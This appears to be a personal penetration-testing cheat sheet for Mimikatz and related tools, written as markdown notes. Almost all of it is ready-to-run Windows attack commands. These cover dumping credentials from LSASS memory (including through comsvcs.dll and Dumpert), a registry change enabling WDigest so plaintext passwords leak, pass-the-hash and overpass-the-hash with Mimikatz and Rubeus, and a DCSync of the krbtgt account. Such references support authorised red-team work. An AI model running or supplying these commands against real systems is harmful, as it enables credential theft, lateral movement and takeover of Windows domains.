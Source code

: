 ```yaml
---
layout: app
title: "Mimikatz"
image: "https://www.notion.so/image/https%3A%2F%2Fcdn-icons-png.flaticon.com%2F512%2F3786%2F3786242.png?table=block&id=2c256cbe-7986-4e8f-84ff-621520fe2fc9&spaceId=407e3b0e-5fd1-480d-b61d-72fe237d3fc6&width=250&userId=95ce699a-847b-4e7d-863b-90f869bd6ef3&cache=v2"
tags: ["mimikatz","over pass the hash",  "dump","rundll32", "Physmem2profit", "lsass","comsvcs","clear passwords", "dump passwords"]

---
```


[Dumping Credentials from Lsass Process Memory with Mimikatz](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory)

[PayloadsAllTheThings/Windows - Mimikatz.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

## One Liner

```powershell
mimikatz.exe 'privilege::debug "lsadump::dcsync /user:krbtgt"' exit
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Running as previous created ticket

```powershell
mimikatz # misc::cmd
```

## Commands

> sekurlsa::logonpasswords lists all available provider credentials. (cf. dumping LSASS secrets) This usually shows recently logged on user and computer credentials.

```powershell
sekurlsa::logonpasswords => Get NTLM, SHA1 and DPAPI hashes authenticated passwords

lsadump::lsa /patch => Get LM and NTLM user hashes passwords

**dir \\UNC and then get kerberos tickets**

sekurlsa::tickets => Get Golden and Silver Tickets

```

Maybe the plaintext password show it like **Password (null)**, try 
[Post](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/#:~:text=From%20the%20table%20above%2C%20you%20can%20see%20that%20Windows%207%2C%208%2C%20Server%202008%20R2%20and%20Server%202012%C2%A0%20are%20by%20default%20unprotected%20and%20will%C2%A0leak%20plaintext%20wdigest%20passwords%20via%20mimikatz.%20However%2C%20if%20you%20add%20the%20DWORD%20registry%20keyword%20UseLogonCredentialand%20set%20to%200)

* Enable: WDigest

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"
```
And restart machine

```powershell
shutdown /r /t 0 /f
```

# Extra Tools

## Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

## SafetyKatz

```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

## SharpKatz

```powershell
SharpKatz.exe --Command ekeys
```

## Dumpert

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```


## pypykatz

```powershell
pypykatz.exe live lsa
```

## comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full
```

### From Linux

- impacket
- Physmem2profit

# Over Pass the Hash 

**Needs admin acccess**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM Hash> /run:<process to run>"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.com /aes256:aes256key /run:powershell.exe"'
```

**Doesn't need elevation**

```csharp
Rubeus.exe asktgt /user:administrator /rc4:"ntlmhash" /ppt
```

**Needs elevation**
```csharp
Rubeus.exe asktgt /user:administrator /aes256:"aes256key" /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```

# Extract Credentials from DC (DCSync)

**Needs admin Rigths**

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```
